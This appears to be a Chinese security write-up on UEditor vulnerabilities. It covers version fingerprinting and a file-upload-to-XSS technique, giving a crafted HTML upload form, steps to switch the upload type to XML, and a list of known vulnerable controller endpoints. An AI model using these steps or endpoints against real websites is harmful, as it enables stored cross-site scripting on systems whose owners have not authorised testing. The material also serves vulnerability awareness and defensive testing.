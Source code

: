# UEditor漏洞总结
# 0x00 简介
Ueditor是由百度WEB前端研发部开发的所见即所得的开源富文本编辑器，具有轻量、可定制、用户体验优秀等特点，开源基于MIT协议，允许自由使用和修改代码，被广大WEB应用程序所使用。

# 0x01 版本识别
当存在demo界面时，可以尝试在控制台通过UE.version获得editor的版本
```
console.log(UE.version)
```
![image](https://user-images.githubusercontent.com/84888757/161830285-334e20f0-d595-4392-8157-752040adc37a.png)


# 0x02 xml文件上传 -> XSS
存在UEditor页面时，直接点击上传图片抓包；
没有demo页面时，自行构造上传表单，如下:
```
<html>
<head>
<meta charset="utf-8">
<title>菜鸟教程(runoob.com)</title>
</head>
<body>

<form action="http://xxxx.com/xxxaaa/ueditor/php/controller.php?action=uploadfile" method="post" enctype="multipart/form-data">
    <input id="File" name="Filedata" type="file" /> 
    <input type="submit" name="Button1" value="Button" id="Button1" />
</form>

</body>
</html>
```

将uploadimage类型改为uploadfile，并修改文件后缀名为xml，最后复制上xml代码即可。

![image](https://user-images.githubusercontent.com/84888757/161831678-66366daa-3cc1-4c3e-a7b7-c97704a7cd23.png)

然后在url中拼接xml路径，
```
http://xxxx.com\/xxxaaa\/upload\/file\/2022xx\/1xxxxxxxxxxxx9.xml
```

常用的上传路径：
```
/ueditor/index.html
/ueditor/asp/controller.asp?action=uploadimage
/ueditor/asp/controller.asp?action=uploadfile
/ueditor/net/controller.ashx?action=uploadimage
/ueditor/net/controller.ashx?action=uploadfile
/ueditor/php/controller.php?action=uploadfile
/ueditor/php/controller.php?action=uploadimage
/ueditor/jsp/controller.jsp?action=uploadfile
/ueditor/jsp/controller.jsp?action=uploadimage
```
